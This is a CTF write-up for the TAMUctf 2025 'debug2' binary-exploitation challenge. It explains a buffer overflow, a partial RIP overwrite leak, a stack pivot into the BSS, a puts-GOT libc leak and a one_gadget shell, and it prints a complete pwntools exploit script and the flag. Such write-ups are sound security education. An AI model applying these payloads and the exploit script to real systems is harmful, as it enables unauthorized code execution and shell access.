# TEMU 2025 - debug2 Writeup 🩸FIRST BLOOD🩸
- **Author:** s1gn3rs
- **Team:** STT
- **Date:** March 28, 2025
- **github:** https://github.com/S1gn3rs/writeups/tree/502e91172c163ca588e4814cd8cc4a0525548bf7/2025_03_28_TAMUctf25/pwn/debug2

## Challenge Information

- **Category:** PWN
- **Challenge Name:** debug2
- **Description:** My friends gave me some advice to fix my code because apparently there were "glaring security flaws". Not sure what they meant, but now my code is more secure than ever!
- **Author:** FlamePyromancer


## TL;DR

**Required:**
- **Basic binary exploitation:** Understand buffer overflows, stack frames, and memory layout.

**Covered:**
- **Stack pivoting:** Redirect the stack pointer (RSP) to a controlled region.
- **ROP chain + one_gadget and ropper usage:** Build ROP chains to leak addresses and execute payloads.
---

### Binary security features
When analyzing a C binary, the first step is to check its permissions:

```bash
$ checkec debug-2
```

Output:
```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

### Key observations

- **Full RELRO** GOT entries cannot be overwritten.
- **PIE enabled:** A memory leak is required to obtain correct addresses.
- **No canary:** The stack is vulnerable to be directly overwritten.
- **NX enabled:** Execution of shellcode on the stack is prevented.
---

## Binary Analysis

### Functions code analysis (source code provided)

Although the binary contains four functions, I'll present the `upkeep` function for reference but skip its detailed analysis since it only performs standard buffer initializations that aren't directly relevant to the challenge.
```c
int upkeep() {
	// IGNORE THIS
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}
```
The first function we should analyze is `main`. It calls `upkeep`, calls two `puts` functions, then invokes `menu`, and executes a `printf` before terminating. Both `puts` and `printf` only receive a string as input. Even though these functions might seem trivial, we will revisit them later in this writeup.

```c
int main() {
	upkeep(); // This function is just for initialization; it's not relevant to the challenge.

	puts("String Modifier v1.4.2");
	puts("Created by: FlamePyromancer"); // :)

	menu();

	printf("\nExiting...\n");
}
```

Following the function flow, the next function to examine in detail is `menu`. It declares two local variables:
- `sel`: an integer used to store our selected option.
- `input`: a char array of length 69.

The function starts with a `while (true)` to ensure that the user's input is a valid selection. Once a valid option is chosen, it executes the corresponding code block and then returns 1 to go back to `main`.

For context, this is from debug-2. In the previous challenge, the `debug` function in debug-1 had several issues, so in this version the `debug` function is commented out (not just in selected option 2, source code of `debug` is commented as well). Therefore, both selection 2 and selection 3 behave similarly, with the only difference being that selection 2 prints an extra message using `puts`.

The remaining option, selection 1, calls the `modify` function with `input` as an argument and then prints the content of `input`.

```c
int menu() {
	int sel;
	char input[69];

	while (true) {
		puts("Choose an option:");
		puts("1: Modify string");
		puts("2: Debug Mode");
		puts("3: Exit\n");

		scanf("%d", &sel);
		printf("You selected: %c\n", sel);

		if (sel==1) {
			modify(input);
			printf("Your string: %s\n", input);
			return 1;
		}
		else if (sel==2) {
			/* This function has been disabled for now :( */
			// debug();
			puts("Debug mode has been disabled!");
			return 1;
		}
		else if (sel==3) {
			return 1;
		}
		puts("Invalid input! Try again.");
	}
	return 1;
}
```

Finally, we have `modify`. This function receives a character buffer `input` and begins by printing a prompt using `puts`. It then calls `read(0, input, 0x60)` to read 96 bytes into the buffer. However, as we saw earlier, `input` is only 69 bytes long, which clearly indicates a buffer overflow vulnerability.

After reading the input, the function prints it using `printf`, potentially leaking relevant data through a buffer overflow. It stores the number of bytes read in `x`, loops over these bytes to swap the case of each alphabetic character, and finally returns 1, passing control back to `menu`.

```c
int modify(char input[]) {
	puts("Input a string (max length of 69 characters):\n");

	int x = read(0, input, 0x60);

	printf("String you entered: %s\n", input);

	for (int i = 0; i < x; ++i) {
		// Make uppercase letters into lowercase
		if (((int)input[i] >= 97) && ((int)input[i] <= 122)) {
			input[i] = (char)((int)input[i]-32);
		}
		// Make lowercase letters into uppercase
		else if (((int)input[i] >= 65) && ((int)input[i] <= 90)) {
			input[i] = (char)((int)input[i]+32);
		}

	}

	return 1;
}
```

### Important findings
1. **Buffer overflow vulnerability:** The `modify` function reads 96 bytes into a 69 byte buffer.
2. **Case modification logic:** `modify` also converts uppercase letters to lowercase and vice versa, which can interfere with payload.
3. **Potential information leak:** The use of `printf` immediately after the overflow to print our payload may be usefull to leak some data.


## Exploiting the Buffer Overflow

Before starting, run the following command to ensure that the binary is linked with the challenge's libc rather than your machine's libc.
```bash
$ pwninit --bin <binary> --ld <ld> --libc <libc>
```

### Saved RIP offset and address leak

First, note that although the overflow occurs in the `modify` function, the buffer we are writing to is passed as an argument to `modify` and actually resides on the stack frame of the caller (`menu`). Therefore, our goal is to overwrite the saved RIP of the `menu` function rather than that of `modify`.

We determined that the saved RIP offset is **0x58 bytes**. This means that with an input size limit of 0x60 bytes, we can't overwrite past the saved RIP.



Note that ASLR is enabled, meaning that we do not know any full addresses at this point. However, this does not prevent us from overwriting the saved RIP and redirecting execution to a desired location. Even with ASLR enabled, the last three significant nibbles (12 bits) remain constant, which allows us to overwrite one or two last significant bytes to jump to a relative address near the saved RIP (to **0xdd**). Since the overflow occurs in `menu`, the saved RIP belongs to an address within `main`. So, by carefully adjusting the overwritten value, we can jump back to where `menu`was called in `main` and re-execute it.



Moreover, after executing `read`, it prints our input before performing the case modifications, this allows us to leak the Saved RIP that we overwrote. And since 0xdd does not represent any alphabetic letter the case modifications isn't applied.

Payload to get saved RIP leak:
```python
# Offset Calculation
sBuffer = 0x7fffffffd710
sRip =    0x7fffffffd768
offsetRip = sRip - sBuffer # 0x58

r.sendlineafter(b" Exit\n", b"1")

payload = b"A"*offsetRip + b"\xdd"
r.sendafter(b" 69 characters)", payload)
```


Output:
```bash
String you entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xddSUUUU
Your string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xddSUUUU
Choose an option:
1: Modify string
2: Debug Mode
3: Exit
```


Saved RIP leak:
```python
r.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
output = r.recvline()[:-1]
leakMain = u64(output.ljust(8, b"\x00"))
log.info(f"leakMain: {hex(leakMain)}")

sbaseCode = 0x555555554000
sLeakMain = 0x5555555553dd
offsetBaseCode = sbaseCode - sLeakMain
e.address = leakMain + offsetBaseCode
log.info(f"baseCode: {hex(e.address)}")
```


Output:
```bash
[*] leakMain: 0x5555555553dd
[*] baseCode: 0x555555554000
```

### What to do now? A stack pivoting

Since our input may be altered by the case-swapping function, a good approach is to address this by implementing a simple function that swaps each alphabetic character's case. We can then apply this function to any important data from this point onward.

```python
    def convert_case(byte):
        targetAddress = bytearray(byte)         # Convert to mutable bytearray
        for i, byte in enumerate(targetAddress):
            if 97 <= byte <= 122:
                targetAddress[i] = byte - 32    # Convert to uppercase
            elif 65 <= byte <= 90:
                targetAddress[i] = byte + 32    # Convert to lowercase

        return bytes(targetAddress)             # Convert back to immutable bytes
```

With this leak of the binary and the ability to jump anywhere in the `.text` section, we have effectively defeated ASLR in the binary (but not in libc or the stack), and we managed to prevent the program from exiting after executing one option from the menu.

However, this alone is not sufficient, as we can only overwrite the saved RIP and nothing beyond it, due to reaching the 0x60-byte limit of the `input` variable.

Although we do not have a direct leak of the stack (which is where our input is written), the binary leak enables us to access another section called the BSS, which holds uninitialized variables. Since the BSS is writable, if we can somehow redirect the input location from the stack to the BSS, we can gain additional information, namely the location of our input.

This is where stack pivoting comes into play. Essentially, `stack pivoting` is a technique that involves redirecting the stack pointer (`RSP`) to a different, attacker controlled area of memory in this case, the BSS section. Normally, `RSP` points to the current stack frame where our overflowed input is stored, but by changing `RSP` to point to a writable region like the BSS, we effectively "move" the stack. This allows us to set up a controlled payload (such as a ROP chain) and then execute it from that new location.


So in order to do that in the saved RBP we need to put an address of the BSS and change the return address. So our second payload should look like this, where `BSS_ADDRESS` and `CODE_ADDRESS` are defined beforehand:

```python
payload = b"A"*(offsetRip - 8)
payload += convert_case(p64(BSS_ADDRESS))
payload += convert_case(p64(CODE_ADDRESS))
```


Since our goal is to change `RSP`, we need to ensure that any return address we choose moves us closer to that goal. At the end of `modify`, this will succeed:


Consider the `leave` instruction:
```bash
mov rsp, rbp
pop rbp
```

- Before `leave`:
   - RBP = stack address1 -> BSS address
   - RSP = stack address2

- After `leave`:
   - RBP = BSS address
   - RSP = stack address1 + 8

This shows that to perform an effective stack pivoting, we need to have two `leave` instructions executed.

However, note that at the start of every function, a prologue sets up a new stack frame. Instead of returning to the very start of a function, which would reinitialize the frame, we should jump to just after those instructions to preserve the current RBP and RSP.



Additionally, we can't simply use the base BSS address for our pivot. Functions like `printf` and `scanf` require a certain amount of stack space, and since the stack grows downward, we need to add an appropriate offset to the BSS address to avoid interfering with that space.

```python
# stack pivoting
payload = b"A"*(offsetRip - 8)
payload += convert_case(p64(e.bss() + 0x808))
payload += convert_case(p64(e.symbols["menu"] + 4))
```

Finaly we can create another assumption that we can predict where our payload will be placed.




Note: `e.bss()` returns the base page of the BSS plus an offset of 0x20.

```python
sBss =      0x555555558020
sBuffer =   0x5555555587d8 # This offset is due to the new stack being in the BSS, which needs to be larger to accommodate the stack frames of functions like printf and scanf.

offsetToPayload = sBuffer - sBss
bufferBss = e.bss() + offsetToPayload + 8 # this +8 is just for stack aligment required by some functions.
```

---

### Libc leak

Now that we can jump directly to our payload, we must analyze our situation. We don't have execution in the BSS or the stack. Due to NX being active, we lack any page that is both writable and executable, so shellcode is out of the question. However, we have another technique called ROP. With ROP, we can jump to gadgets, addresses in the code that directly or indirectly contain a `ret` instruction, and build a chain of instructions.

First, let's examine the gadgets in the `.text` section using the command:
```bash
$ ropper --file debug-2 > gadget.txt
```

Followed by:
```bash
$ cat gadget.txt | grep ret | grep pop
```
to narrow our search.


```bash
0x00000000000013ef: add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret;
0x00000000000013e7: add byte ptr [rax], al; call 0x1030; mov eax, 0; pop rbp; ret;
0x000000000000114c: add byte ptr [rax], al; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000011c9: add byte ptr [rax], al; mov rdi, rax; call 0x1060; nop; pop rbp; ret;
0x00000000000013f1: add byte ptr [rax], al; pop rbp; ret;
0x000000000000115d: add byte ptr [rcx], al; pop rbp; ret;
0x000000000000114b: add byte ptr cs:[rax], al; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013e9: call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000011ce: call 0x1060; nop; pop rbp; ret;
0x000000000000114e: call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x0000000000001153: call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013dd: call 0x12dc; lea rdi, [rip + 0xd31]; call 0x1030; mov eax, 0; pop rbp; ret;
0x0000000000001149: cmp eax, 0x2eba; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013e4: cmp eax, 0xd31; call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000013e1: dec dword ptr [rax - 0x73]; cmp eax, 0xd31; call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000013e3: lea edi, [rip + 0xd31]; call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000013e2: lea rdi, [rip + 0xd31]; call 0x1030; mov eax, 0; pop rbp; ret;
0x0000000000001158: mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013ee: mov eax, 0; pop rbp; ret;
0x0000000000001148: mov edi, dword ptr [rip + 0x2eba]; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000011cc: mov edi, eax; call 0x1060; nop; pop rbp; ret;
0x0000000000001147: mov rdi, qword ptr [rip + 0x2eba]; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000011cb: mov rdi, rax; call 0x1060; nop; pop rbp; ret;
0x0000000000001454: pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000001456: pop r13; pop r14; pop r15; ret;
0x0000000000001458: pop r14; pop r15; ret;
0x000000000000145a: pop r15; ret;
0x0000000000001453: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000001457: pop rbp; pop r14; pop r15; ret;
0x000000000000115f: pop rbp; ret;
0x000000000000145b: pop rdi; ret;
0x0000000000001459: pop rsi; pop r15; ret;
0x0000000000001455: pop rsp; pop r13; pop r14; pop r15; ret;
0x00000000000011d3: nop; pop rbp; ret;
```
`Advice`: I switched from using ROPgadget to ropper, since jpl8 showed me some advantages regarding the gadgets displayed in the output in other challenges.

Unfortunately, we don't have many useful gadgets, but we have enough to perform a trick called **puts leak** or **put puts**.
In fact, we only require one gadget:
```bash
0x000000000000145b: pop rdi; ret;
```

In C, function arguments are passed via registers (and when there are too many arguments, they are passed on the stack). In our case, RDI represents the first function argument. Recall that at the beginning I mentioned that the `main` function only printed strings and called menu. When the C compiler compiles the binary, if it encounters a `printf` that only prints a string without any format specifiers, it will convert that `printf` into a `puts`.



Why should we use that especific `puts` instead of another existing `puts`? Since we changed the stack to the BSS, our new stack cannot extend far down. Thus, functions that require many frames may fail because we are not able to supply them all. Since this new `puts` is at the end of `main`, we don't get the risk of executing unnecessary functions and we can use its return to continue our ROP chain.

So, what should be the argument to `puts`? At this point, we know the exact binary addresses, meaning that a good choice is to pass a GOT entry, specifically, the address that holds libc's `puts` address. This would print the value stored there, which our binary uses to execute `puts`.




Finally, to avoid losing control, we need to jump back to `menu`, close to where `modify` is called. Again allowing us to input more data into the BSS and to prevent execution of unnecessary functions.



The rop chain looks like this:
```python
addrMain55 = e.symbols["main"] + 55
# 0x000000000000145b: pop rdi; ret;
gadgetPopRdi = 0x000000000000145b + e.address
rop = convert_case(p64(gadgetPopRdi))
rop += convert_case(p64(e.got["puts"]))
rop += convert_case(p64(addrMain55)) # puts
rop += convert_case(p64(bufferBss))  # to put inside of RBP due to pop at the end of main
rop += convert_case(p64(e.symbols["menu"] + 110)) # before modify
```

Payload to leak puts address:
```python
payload = b"GARBAGEE" # just for alignment
payload += rop.ljust(0x48, b"N")
payload += convert_case(p64(bufferBss - 8)) # to dont mess with the pivoting (reason at then end)
payload += convert_case(p64(e.symbols["menu"] +212)) # Go directly to leave ; ret to execute the ROP chain
r.sendafter(b" 69 characters)", payload)
```

Output:
```bash
String you entered: GARBAGEE[tuuuu
Your string: garbagee[TUUUU
@\xea\xe7\xf7\xff\x7f
Input a string (max length of 69 characters):
```

Leak of puts address:
```python
r.recvuntil(b"garbagee")
r.recvline()
output = r.recvline()

leakPuts = output[:-1]
leakPuts = u64(leakPuts.ljust(8, b"\x00"))
log.info(f"leakPuts: {hex(leakPuts)}")

libc.address = leakPuts - libc.symbols["puts"]
log.info(f"libc: {hex(libc.address)}")
```

Output:
```bash
[*] leakPuts: 0x7ffff7e7ea40
[*] libc: 0x7ffff7e0d000
```

### Final payload

**IMPORTANT STEP:** Before proceeding, note that in our third payload we overwrote the saved RBP with the address of the BSS, selecting the start of the BSS as the new RBP. Since we jump directly to the location just before the call to `modify`, the frame for `menu` hasn't been set up yet. This ensures that our target variable will be located below our current RSP. This step is crucial because, instead of overwriting the return address of `menu`, we can overwrite the saved RIP of the `read` function called inside of `modify`. As a result, we avoid executing the functions that occur between the `read` in `modify` and the return from `menu`, thereby preventing issues related to our new stack pivot.





**Offset to write's saved RIP and last jump**

Let's perform our final offset calculation:


From this, we found that the offset to the saved RIP is 0x40.

Since we can jump to anywhere in libc, for the final payload we have two main options. We can construct our ROP chain using gadgets from libc, or we can use another tool called `one_gadget` that outputs offsets relative to the base of libc along with their conditions. If these conditions are met when we jump to a specific address in libc, it will spawn a shell for us.

By writing this command:
```bash
$ one_gadget libc.so.6
```

We get the following output:
```bash
0x4497f execve("/bin/sh", rsp+0x30, environ)
constraints:
  address rsp+0x40 is writable
  rax == NULL || {rax, "-c", r12, NULL} is a valid argv

0x449d3 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xe5306 execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL || {[rsp+0x60], [rsp+0x68], [rsp+0x70], [rsp+0x78], ...} is a valid argv
```

`Quick tip`: As icemonster, a friend of mine, once said, you will lose less time by simply trying to jump to those addresses rather than checking if each condition is met. If none of them work initially, then you can try to see if the remaining conditions can be met before jumping there.

**Last touch**

With our last offset from one_gadget, we got the shell we planned, which left us with the following payload:
```python
finalPayload = b"K"*0x40
finalPayload += p64(libc.address + 0xe5306) # this overwrites the return of read so no mangle is needed
r.sendlineafter(b" characters", finalPayload)
```


## Exploit Code

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("debug-2_patched")
libc = ELF("libc.so.6")
ld = ELF("ld-2.28.so")

context.binary = e

def conn(cond):
    if cond == 1:
        r = process([e.path])
    elif cond == 2:
        r = gdb.debug([e.path], gdbscript="""
            b *menu
            # b *main
            b *menu+212
            b *modify+41
            c
            """)
    elif cond == 3:
        r = remote("tamuctf.com", 443, ssl=True, sni="tamuctf_debug-2")

    return r


def main():
    r = conn(1)

    # Offset Calculation
    sBuffer = 0x7fffffffd710
    sRip =    0x7fffffffd768
    offsetRip = sRip - sBuffer # 0x58

    r.sendlineafter(b" Exit\n", b"1")

    payload = b"A"*offsetRip + b"\xdd"
    r.sendafter(b" 69 characters)", payload) # Now we are back into main+43 (call menu)

    # With this we can leak the address of main
    r.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
    output = r.recvline()[:-1]
    leakMain = u64(output.ljust(8, b"\x00"))
    log.info(f"leakMain: {hex(leakMain)}")

    sbaseCode = 0x555555554000
    sLeakMain = 0x5555555553dd
    offsetBaseCode = sbaseCode - sLeakMain
    e.address = leakMain + offsetBaseCode
    log.info(f"baseCode: {hex(e.address)}")

    #-----------------------------------------------------------------------------------------------------

    def convert_case(byte):
        targetAddress = bytearray(byte)  # Convert to mutable bytearray
        for i, byte in enumerate(targetAddress):
            if 97 <= byte <= 122:
                targetAddress[i] = byte - 32  # Convert to uppercase
            elif 65 <= byte <= 90:
                targetAddress[i] = byte + 32  # Convert to lowercase

        return bytes(targetAddress)  # Convert back to immutable bytes if needed


    log.info(f"bss: {hex(e.bss())}")
    log.info(f"got puts: {hex(e.got['puts'])}")
    log.info(f"plt puts: {hex(e.plt['puts'])}")

    # stack pivoting
    payload = b"A"*(offsetRip - 8)
    payload += convert_case(p64(e.bss() + 0x808))
    payload += convert_case(p64(e.symbols["menu"] + 4))

    r.sendlineafter(b" Exit\n", b"1")
    r.sendafter(b" 69 characters)", payload)

    #-----------------------------------------------------------------------------------------------------

    r.sendlineafter(b" Exit\n", b"1")

    sBss =      0x555555558020
    sBuffer =   0x5555555587d8 # this offset is due to the new stack being in the bss that is to much short to the stack of functions like printf and scanf
    offsetToPayload = sBuffer - sBss
    bufferBss = e.bss() + offsetToPayload + 8 # this + 8 is just for alignment


    addrMain55 = e.symbols["main"] + 55
    # 0x000000000000145b: pop rdi; ret;
    gadgetPopRdi = 0x000000000000145b + e.address
    rop = convert_case(p64(gadgetPopRdi))
    rop += convert_case(p64(e.got["puts"]))
    rop += convert_case(p64(addrMain55)) # puts
    rop += convert_case(p64(bufferBss)) # to put inside of RBP due to pop at the end of main
    rop += convert_case(p64(e.symbols["menu"] + 110))


    payload = b"GARBAGEE" # just for alignment
    payload += rop.ljust(0x48, b"N")
    payload += convert_case(p64(bufferBss - 8)) # to dont mess with the pivoting
    payload += convert_case(p64(e.symbols["menu"] +212)) # Go directly to leave ; ret to execute the ROP chain

    r.sendafter(b" 69 characters)", payload)

    r.recvuntil(b"garbagee")
    r.recvline()
    output = r.recvline()

    leakPuts = output[:-1]
    leakPuts = u64(leakPuts.ljust(8, b"\x00"))
    log.info(f"leakPuts: {hex(leakPuts)}")

    libc.address = leakPuts - libc.symbols["puts"]
    log.info(f"libc: {hex(libc.address)}")

    #-----------------------------------------------------------------------------------------------------

    finalPayload = b"K"*0x40
    finalPayload += p64(libc.address + 0xe5306) # this overwrites the return of read so no mangle is needed
    r.sendlineafter(b" characters", finalPayload)

    r.interactive()

if __name__ == "__main__":
    # author: s1gn3rs
    main()
```

---

## Flag

```
gigem{f1x3d_d3buG6iN_y3t_st1Ll_f1aWeD_3da42ce3}
```
